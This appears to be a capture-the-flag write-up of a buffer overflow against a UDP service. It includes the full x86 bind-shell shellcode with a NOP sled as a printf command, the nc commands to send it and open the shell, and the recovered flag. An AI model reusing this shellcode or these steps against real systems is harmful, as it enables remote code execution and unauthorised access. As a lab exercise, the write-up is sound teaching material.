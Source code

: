 Rather than using the exact start of msgbuf (0x804b300), an offset (0x804b306) was used. This ensures the program's execution bypasses any non-executable data, such as the null byte (\x00) at the start of the payload. Instead, the return address lands within the NOP sled, which allows the CPU to "slide" through the NOP instructions until it reaches the shellcode.

This approach is critical because:

The payload resides in msgbuf, making it the logical target for the return address.
The offset ensures that the execution skips any problematic or non-executable bytes and lands safely within the NOP sled.
It accounts for potential variations in how the stack or memory layout behaves during runtime.
By overwriting the return address with 0x804b306, the exploit redirected execution flow to msgbuf, effectively executing the injected shellcode.

## Execution

Here are the steps I followed to execute the payload and gain access:

### Payload Creation:

printf "\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x40\x50\x89\xc3\x40\x50\x89\xe1\xb0\x66\xcd\x80\x89\xc6\x31\xdb\x53\x66\x68\x09\x29\x66\x6a\x02\x89\xe1\x6a\x10\x51\x50\x89\xe1\xb3\x02\xb0\x66\xcd\x80\x31\xdb\x53\x56\x89\xe1\xb3\x04\xb0\x66\xcd\x80\x31\xdb\x53\x53\x56\x89\xe1\xb3\x05\xb0\x66\xcd\x80\x89\xd9\x83\xe9\x03\x89\xc3\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x06\xb3\x04\x08" > pay1.bin

### Send Payload:

cat pay1.bin | nc -u time 2222

### Connect to Shell:

nc time 2345
whoami
time
cd ../
ls
flag.txt
guestbook.txt
service
cat flag.txt
CTF{secret-T8ixjP5GKtZvnsjhHwvX}

## Conclusion
The payload worked as intended. I successfully executed the buffer overflow attack, exploited the vulnerability, and launched a bind shell on the target server. By connecting to the bind shell using nc time 2345, I gained access and retrieved the flag, confirming the exploit's success.